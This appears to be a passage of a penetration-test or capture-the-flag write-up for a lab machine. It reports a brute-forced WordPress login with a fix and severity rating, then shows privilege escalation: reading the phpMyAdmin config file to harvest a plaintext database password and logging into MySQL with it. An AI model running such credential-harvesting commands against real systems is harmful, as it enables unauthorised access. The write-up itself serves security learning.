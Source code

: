**Vulnerability Exploited:**
Weak password used for default user.

**Vulnerability Explanation:**
We were able to brute-force the Wordpress login credentials due to the default user being enabled paired with the fact that the password was weak. The default user was confirmed as Wordpress gives us a different error message if the user does not exist.

**Vulnerability Fix:**
Use strong passwords for all users. Changing the user could help slow down the attack but this field can still be enumerated through the information Wordpress returns when the username does not exist.

**Severity:**
Critical

#### Privilege Escalation to user

Through enumeration we see that we have access to read the config of phpmyadmin:
```
ww-data@internal:/tmp$ cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

We can login to the PHP server with those credentials:
```
www-data@internal:/tmp$ mysql -u phpmyadmin -p             
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 22788
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 

```
